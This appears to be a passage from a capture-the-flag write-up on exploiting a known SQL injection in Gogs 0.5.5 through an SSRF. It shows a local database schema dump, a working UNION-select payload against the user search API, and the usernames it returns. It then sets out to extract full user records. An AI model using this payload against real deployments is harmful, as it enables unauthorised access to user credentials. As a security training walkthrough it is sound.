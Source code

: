 We can quickly find this [exploit](https://www.exploit-db.com/exploits/35238), the only problem is that we need to trigger it through a SSRF and it's a SQLI so the only viable way is to download the [same version of gogs](https://github.com/gogs/gogs/releases/tag/v0.5.5) locally in order to figure out a payload that we could easily send through our SSRF vulnerability.


### Database Enumeration

Now that we have a local instance of Gogs running we can try out the exploit that we found. The exploit is a SQL injection so it makes sense to get a layout of the DB before attempting to test it.

```bash
sqlite3 gogs.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .schema user
CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `full_name` TEXT NULL, `email` TEXT NOT NULL, `passwd` TEXT NOT NULL, `login_type` INTEGER NULL, `login_source` INTEGER NOT NULL DEFAULT 0, `login_name` TEXT NULL, `type` INTEGER NULL, `num_followers` INTEGER NULL, `num_followings` INTEGER NULL, `num_stars` INTEGER NULL, `num_repos` INTEGER NULL, `avatar` TEXT NOT NULL, `avatar_email` TEXT NOT NULL, `location` TEXT NULL, `website` TEXT NULL, `is_active` INTEGER NULL, `is_admin` INTEGER NULL, `rands` TEXT NULL, `salt` TEXT NULL, `created` NUMERIC NULL, `updated` NUMERIC NULL, `description` TEXT NULL, `num_teams` INTEGER NULL, `num_members` INTEGER NULL);
CREATE UNIQUE INDEX `UQE_user_lower_name` ON `user` (`lower_name`);
CREATE UNIQUE INDEX `UQE_user_name` ON `user` (`name`);
CREATE UNIQUE INDEX `UQE_user_email` ON `user` (`email`);
sqlite> 
```
There are 3 key thing to take from the enumeration of the local DB:
- We are dealing with SQLite
- There are 27 columns in the "user" table (as we can only do data exfiltration it makes sense to enumerate users)
- The name of the user is in the third field

With all that we can modify the PoC of the exploit that we previously found and transform it into a payload that could enumerate local users.

```SQl
/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-
```
It works
```json
{
  "data": [
    {
      "username": "omegon",
      "avatar": "//1.gravatar.com/avatar/3e899d265c6a53baa769872fcfe2026d"
    },
    {
      "username": "omegon",
      "avatar": "//1.gravatar.com/avatar/15"
    }
  ],
  "ok": true
}
```
So let's craft a payload that could extract all the data of the user ant let's test it remotely exploiting the SSRF that we found earlier.
